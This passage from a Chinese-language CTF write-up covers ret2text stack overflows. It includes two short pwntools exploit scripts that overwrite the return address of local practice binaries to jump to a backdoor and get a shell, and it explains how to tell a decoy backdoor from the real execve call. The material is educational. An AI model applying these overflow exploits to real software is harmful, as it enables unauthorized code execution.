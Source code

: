 把后门地址改成0x4011CF，也就是mov rbp,rsp这一步的地址

<h3 id="d752fc47-2">本题exp：</h3>
```plain
from pwn import *
context(log_level="debug", arch="amd64", os="linux")
p = process("./ret2text2")


p.recvuntil("It's a easy challenge")
backdoor=0x4011cf
payload=b'A'*0x108+p64(backdoor)

p.sendline(payload)
 
p.interactive()
```

<h2 id="61dba564">题目5</h2>
一样的题，checksec我省略了，直接看函数

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608719-146e153a-ab82-455f-a284-9acdedfbb7d3.png)

gets更爽，因为可以写无限个字节，v1距离rbp0x20个字节，加上rbp就是0x28

找后门函数

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608936-3f1786d5-7ea7-402d-9553-f762650a8d46.png)

你以为这是后门函数？再仔细看看呢！！它只是把system('/bin/sh')用puts打印出来了

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698609046-30b47798-d33f-4616-bb30-94587ea0b071.png)

真正的后门在这

execve(“/bin/sh”,0,0)是干嘛的搜索一下，其实就是和system('/bin/sh')等价

<h3 id="d752fc47-3">本题exp：</h3>
这题又不需要加ret，具体原理比较复杂，总之做的时候大家试一下就好

```plain
from pwn import *
context(log_level="debug", arch="amd64", os="linux")
p=process('./ret2text1')


payload=b'A'*0x28+p64(0x401257)

p.sendline(payload)

p.interactive()
```

<h1 id="078425ea">学习笔记</h1>
xxx

